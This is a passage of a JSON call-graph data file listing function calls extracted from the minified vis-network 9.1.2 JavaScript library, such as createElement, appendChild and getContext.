"static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_setOpacity"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_setOpacity"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_setBrightness"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_setBrightness"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "get"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "set"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_moveSelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_moveSelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_moveSelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_moveSelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_moveSelector"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setTransform"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "clearRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "rgb"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "fillRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "circle"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "stroke"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getImageData"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "atan2"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "cos"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "sin"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createTextNode"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_removePopup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "join"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_clean"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_clean"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_create"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_clean"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_handleObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_makeItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_makeHeader"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_handleObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_makeButton"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_showPopupIfNeeded"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_removePopup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_makeItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_makeLabel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_makeItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "ceil"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_makeLabel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_makeItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_setupPopup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_printOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_removePopup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "clearTimeout"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getBoundingClientRect"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_removePopup"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_makeLabel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_makeItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_makeLabel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_makeItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_showColorPicker"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_makeLabel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_makeItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "insertTo"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "show"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setColor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setUpdateCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "rgba"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_update"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setCloseCallback"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_showColorPicker"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_handleObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_handleArray"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_makeTextInput"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_makeCheckbox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_getValue"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_makeLabel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_makeItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_handleObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_makeCheckbox"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_makeLabel"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_makeItem"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_handleObject"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_makeColorField"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_makeDropdown"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_makeRange"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_constructOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "emit"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "setOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_constructOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "appendChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "hide"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "removeChild"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "check"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getType"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "checkFields"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getSuggestion"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getType"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getType"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "parse"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "findInOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "findInOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "printLocation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "printLocation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "printLocation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "printLocation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "print"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "printLocation"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "error"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "toLowerCase"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "findInOptions"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "levenshteinDistance"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "replace"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "min"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "void"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "charCodeAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "shift"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "hasOwnProperty"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "charAt"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "isNaN"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "void"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "void"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "substr"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "pop"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "push"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "call"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "freeze"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "createElement"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "floor"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "_fillMipMap"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "getContext"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", "target": "drawImage"}, {"confidence": "EXTRACTED", "relation": "calls", "source": "static/js/vis-network-9.1.2.min.js", 